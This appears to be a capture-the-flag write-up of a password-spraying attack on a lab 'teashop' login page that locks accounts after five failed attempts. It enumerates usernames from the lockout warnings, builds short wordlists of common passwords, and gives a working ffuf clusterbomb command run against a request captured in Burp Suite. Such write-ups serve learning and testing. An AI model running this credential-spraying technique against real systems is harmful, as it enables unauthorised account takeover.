 We are given a website with an account warning of lock out after 5 failed in-corrects attempts

![](https://i.imgur.com/uPqXeEK.png)

Definitely when it comes to situation like this what should come to mind is **password spraying**, we can enumerate usernames through the page description and our own instinct


![](https://i.imgur.com/Wo6lxO1.png)


I managed to find **admin, jeremy and jessamy** because this are the only login attempts that throws a lockout attempt warning


we can then try out a **password spraying** attack using `ffuf`

- Open up `burpsuite` and intercept the request
- copy or save the request to a `TXT` file
- Then replace username field with `FUZZUSER` and password with `FUZZPASS`

![](https://i.imgur.com/t05GYFj.jpg)

- We can create a wordlist of usernames we found and then 5 common passwords we know, since we get a lockout after 5 attempts

```
# common password wordlist

Password
admin
letmein
Password123
qwerty

# Username found wordlist

admin
jeremy
jessamy
```

- Now we can fire up `ffuf` and start our password spraying attack

```bash
# -request : request file to check
# -request-proto : protocol to use along with raw request (default: https)
# -mode : Multi-wordlist operation mode, run --help for more
# -w : specify wordlist
# -fs : filter by size

$ ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w users.txt:FUZZUSER -fs 3376
```

**Note :** You can intercept request with **burpsuite>>send to repeater>>forward request** and then try to check for the size of the response to determine the `-fs` switch in `ffuf` by checking the **Content-Length** of your response

![](https://i.imgur.com/6A30C2d.png)



